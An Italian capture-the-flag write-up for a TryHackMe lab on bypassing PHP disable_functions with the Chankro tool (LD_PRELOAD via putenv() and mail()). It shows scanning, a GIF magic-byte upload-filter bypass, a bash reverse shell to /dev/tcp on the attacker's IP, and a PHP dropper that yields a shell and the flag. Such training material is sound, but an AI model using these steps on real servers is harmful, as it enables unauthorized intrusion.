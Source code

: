 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/bypassdisablefunctions

## Introduzione

Che cos'è una vulnerabilità di caricamento file?

Questa vulnerabilità si verifica nelle applicazioni web in cui esiste la possibilità di caricare un file senza essere controllati da un sistema di sicurezza che limita i potenziali pericoli. 
 
Consente a un aggressore di caricare file con codice (script come .php , .aspx e altri) ed eseguirli sullo stesso server; maggiori informazioni in questa [stanza](https://tryhackme.com/room/uploadvulns) .  
 
Perché questa stanza?  
  
Tra le misure tipicamente applicate c'è la disabilitazione di funzioni pericolose che potrebbero eseguire comandi del sistema operativo o avviare processi. Funzioni come system() o shell_exec() vengono spesso disabilitate tramite direttive PHP definite nel file di configurazione .ini di PHP . Altre funzioni, forse meno note come dl() (che consente di caricare dinamicamente un'estensione PHP ), possono passare inosservate all'amministratore di sistema e non essere disabilitate. La cosa usuale in un test di intrusione è elencare quali funzioni sono abilitate nel caso in cui qualcuna sia stata dimenticata.
 
Una delle tecniche più semplici da implementare e poco diffusa è l'abuso delle funzionalità mail() e putenv(). Questa tecnica non è nuova, era già stata segnalata a [PHP nel 2008](https://bugs.php.net/bug.php?id=46741) da gat3way, ma funziona ancora oggi. Tramite la funzione putenv(), possiamo modificare le variabili d'ambiente, assegnando il valore desiderato alla variabile LD_PRELOAD. LD_PRELOAD ci permetterà di precaricare una libreria .so prima delle altre , in modo che se un programma utilizza una funzione di una libreria (ad esempio libc.so), eseguirà quella presente nella nostra libreria invece di quella che dovrebbe eseguire. In questo modo, possiamo dirottare o "agganciare" le funzioni, modificandone il comportamento a piacimento.
 
[Chankro](https://github.com/TarlogicSecurity/Chankro) : strumento per eludere disable_functions e open_basedir

Tramite Chankro, generiamo uno script PHP che fungerà da dropper, creando sul server una libreria .so e lo script binario (un meterpreter , ad esempio) o bash (una reverse shell, ad esempio) che vogliamo eseguire liberamente e che in seguito chiamerà putenv() e mail() per avviare il processo.
 
Strumento di installazione:
 
```
git clone https://github.com/TarlogicSecurity/Chankro.git
```

```
cd Chankro
```

```
python2 chankro.py --help
``` 

--arch = Architettura del sistema vittima 32 o 64.

--input = file con il payload da eseguire

--output = Nome del file PHP che andrai a creare; questo è il file che dovrai caricare.

--path = È necessario specificare il percorso assoluto in cui si trova il file PHP caricato . Ad esempio, se il file si trova nella cartella uploads, DOCUMENTROOT + uploads. 

```
nano c.sh
```
```
#!/bin/bash

whoami > /var/www/thml/a.txt
```

```
python chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html
```
Ora, quando eseguiamo lo script PHP sul server web, verranno creati i file necessari per eseguire il nostro payload.
```
root@ip-10-10-225-22:~/Chankro# python chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html


     -=[ Chankro ]=-
    -={ @TheXC3LL }=-


[+] Binary file: c.sh
[+] Architecture: x64
[+] Final PHP: tryhackme.php


[+] File created!

```
Il mio comando è stato eseguito correttamente e ho creato un file nella directory con l'output del comando.


## Reasy Set Go

Comprometti la macchina e individua il file flag.txt

```
nmap -Pn -O -sVC -v -p- 10.10.99.149
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1f:97:54:30:24:74:f2:fa:15:ed:f3:35:84:dc:6c:d0 (RSA)
|   256 a7:21:78:6d:a6:05:7e:5a:0f:7e:53:65:0a:c4:53:49 (ECDSA)
|_  256 57:1c:22:ac:59:69:62:cb:94:bd:e9:9f:67:68:23:c9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Ecorp - Jobs

```

visioniamo il sito e troviamo
http://10.10.99.149/cv.php

dover poter allegare il nostro CV

facciamo un po di enumerazione  alla ricerca di directory
```
ffuf -u http://10.10.99.149/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```
troviamo
```
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```

facciamo un po di enumerazione  alla ricerca di files
```
ffuf -u http://10.10.99.149/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-files.txt
```
troviamo
```
index.html              [Status: 200, Size: 12012, Words: 3434, Lines: 244]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
phpinfo.php             [Status: 200, Size: 68199, Words: 3202, Lines: 747]
.                       [Status: 200, Size: 12012, Words: 3434, Lines: 244]
.html                   [Status: 403, Size: 277, Words: 20, Lines: 10]
.php                    [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htm                    [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswds              [Status: 403, Size: 277, Words: 20, Lines: 10]
.htgroup                [Status: 403, Size: 277, Words: 20, Lines: 10]
wp-forum.phps           [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess.bak           [Status: 403, Size: 277, Words: 20, Lines: 10]
.htuser                 [Status: 403, Size: 277, Words: 20, Lines: 10]
.htc                    [Status: 403, Size: 277, Words: 20, Lines: 10]
.ht                     [Status: 403, Size: 277, Words: 20, Lines: 10]
cv.php                  [Status: 200, Size: 4153, Words: 1078, Lines: 98]
```
Ci sono di interessante  sia una cartella `/uploads/` che un file `phpinfo.php`

http://10.10.99.149/phpinfo.php

come impostazione troviamo 
```
disable_functions	exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,
```

```
`open_basedir`: vuoto
```

```
`$_SERVER['DOCUMENT_ROOT']`:`/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db`
```

se carichiamo su CV un file PHP, questo viene rifiutato perchè controllerà il tipo di file direttamente con la libreria file o magic header

quindi **creiamo un file contenente i magic byte GIF** per eludere il filtro

```
echo 'GIF89a;' > gif.txt
```
creiamo un file di test exploit
```
echo "<?php echo 'testexploit'; ?>" > testexploit.php
```
concateniamo i files creati

```
cat gif.txt testexploit.php > codice_offuscato.php
```
carichiamo il file su
http://10.10.99.149/cv.php
ed ora otteniamo il file caricato con successo su
http://10.10.99.149/uploads/codice_offuscato.php

**Problema! molte funzioni che consentono l'esecuzione di comandi sono bloccate.** Aggiriamo  il problema  usando [`chankro`](https://github.com/TarlogicSecurity/Chankro).

- creiamo una reverse shell con l'aiuto di
https://www.revshells.com/

```
nano revsh.sh
```
```
bash -c 'bash -i >& /dev/tcp/10.10.225.22/1234 0>&1'
```

apriamo un altro terminale e ci mettiamo in ascolto
```
nc -lvnp 1234
```


Usiamo `chankro` per creare il dropper PHP bypass. Abbiamo già trovato il percorso della radice web nella `phpinfo.php`pagina.

```
python chankro.py --arch 64 --input revsh.sh --output dropper.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads
```

falsifichiamo come prima la firma GIF
```
cat gif.txt dropper.php > dropper_obfu.php
```
carichiamo il file ed successivamente andiamo su 
```
http://10.10.99.149/uploads/dropper_obfu.php
```
per attivare la nostra reverse shell!
```
www-data@ubuntu:/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads$ 
```
ora ci rimane solo di cercare la nostra flag
```
www-data@ubuntu:/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads$ cd /home
<ml/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads$ cd /home                       
www-data@ubuntu:/home$ ls
ls
s4vi
www-data@ubuntu:/home$ cd s4vi
cd s4vi
www-data@ubuntu:/home/s4vi$ ls
ls
flag.txt
www-data@ubuntu:/home/s4vi$ cat flag.txt
cat flag.txt
thm{xxxxxxxxxx}
www-data@ubuntu:/home/s4vi$ 
```

```
thm{xxxxxxxxxxx}
```

